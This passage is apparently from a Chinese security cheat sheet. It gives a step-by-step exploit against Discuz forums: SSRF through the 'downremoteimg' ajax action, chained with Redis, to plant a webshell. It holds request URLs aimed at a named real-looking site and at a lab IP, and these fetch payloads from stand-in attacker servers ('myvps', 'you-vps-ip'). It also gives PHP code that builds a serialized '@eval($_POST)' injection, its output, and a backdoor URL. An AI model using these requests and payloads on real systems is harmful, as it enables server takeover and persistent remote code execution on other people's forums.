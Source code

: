 #### example Discuz

> open the website

```
http://bbs.biligame.com/forum.php?mod=ajax&action=downremoteimg&message=[img]http://myvps/webshell.php?logo.jpg[/img]
http://bbs.biligame.com/forum.php?mod=ajax&inajax=yes&action=getthreadtypes
```

> clear data

```
http://bbs.biligame.com/forum.php?mod=ajax&action=downremoteimg&message=[img]http://myserver/back.php?logo.jpg[/img]
```

> backdoor url

```
http://bbs.biligame.com/data/cache/hello.php
```

### SSRF Redis Getshell

> Generate serialize

```
<?php
    $a['output']['preg']['search']['plugins'] = '/.*/e';
    $a['output']['preg']['replace']['plugins'] = '@eval($_POST['c']);';
    $a['rewritestatus']=1;
    $setting = serialize($a);
    echo $setting."\n".strlen($setting);
?>
```

> Output

```
a:2:{s:6:"output";a:1:{s:4:"preg";a:2:{s:6:"search";a:1:{s:7:"plugins";s:5:"/.*/e";}s:7:"replace";a:1:{s:7:"plugins";s:19:"@eval($_POST["c"]);";}}}s:13:"rewritestatus";i:1;}     //序列化数据
173     //字符串长度
```

#### example Discuz

> Open website

```
http://192.168.80.116/forum.php?mod=ajax&action=downremoteimg&message=[img=1,1]http://you-vps-ip/ssrf.php?.jpg[/img]&formhash=818c8f44
```

> Backdoor website

```
http://192.168.80.116/forum.php?mod=ajax&inajax=yes&action=getthreadtypes
```
